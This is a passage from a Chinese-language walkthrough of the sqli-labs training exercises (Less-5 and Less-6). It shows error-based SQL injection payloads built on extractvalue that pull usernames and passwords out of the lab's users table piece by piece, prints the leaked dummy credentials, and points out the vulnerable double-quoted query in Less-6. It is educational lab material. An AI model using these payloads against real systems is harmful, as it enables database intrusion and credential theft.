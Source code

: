 > XPATH syntax error: '~ummy^p@ssword,secure^crappy,stu'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),63,31),0x7e))--+`

> XPATH syntax error: '~pid^stupidity,superman^genious,'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),94,31),0x7e))--+`

> XPATH syntax error: '~batman^mob!le,admin^admin,admin'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),125,31),0x7e))--+`

> XPATH syntax error: '~1^admin1,admin2^admin2,admin3^a'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),156,31),0x7e))--+`

> XPATH syntax error: '~dmin3,dhakkan^dumbo,admin4^admi'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),187,31),0x7e))--+`

> XPATH syntax error: '~n4~'

拼接用户^密码：
Dumb^Dumb,
Angelina^I-kill-you,
Dummy^p@ssword,
secure^crappy,
stupid^stupidity,
superman^genious,
batman^mob!le,
admin^admin,
admin1^admin1,
admin2^admin2,
admin3^admin3,
dhakkan^dumbo,
admin4^admin4

# Pass06

```bash
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

`?id=1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" LIMIT 0,1' at line 1

less6与less5的唯一区别在于闭合方式为双引号"\ <a name="MK1Je"></a>

用updatexml()函数进行报错注入
